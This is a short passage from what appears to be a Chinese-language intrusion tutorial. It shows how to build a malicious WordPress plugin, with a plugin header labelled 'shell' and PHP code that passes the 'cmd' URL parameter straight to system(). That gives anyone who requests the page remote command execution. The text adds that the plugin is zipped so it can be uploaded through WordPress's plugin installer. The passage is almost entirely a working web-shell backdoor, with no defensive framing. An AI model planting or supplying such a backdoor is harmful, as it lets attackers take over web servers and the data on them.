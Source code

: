 ![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Qxgt_wFMO01QaNJM3pMpIppfpaMJWWwJUFP0-w_-mUc.png?raw=true)

不去修改别的插件，新建一个插件

```
<?php
/*
Plugin Name: laoqi
Plugin URI: http://baidu.com
Description: shell
Version: 6.6.6
Author: laoqi
Author URI: http://baidu.com
*/

if(isset($_GET[cmd])){
        system($_GET[cmd]);
}
?>
```
把插件压缩成zip，wordpress只支持zip上传
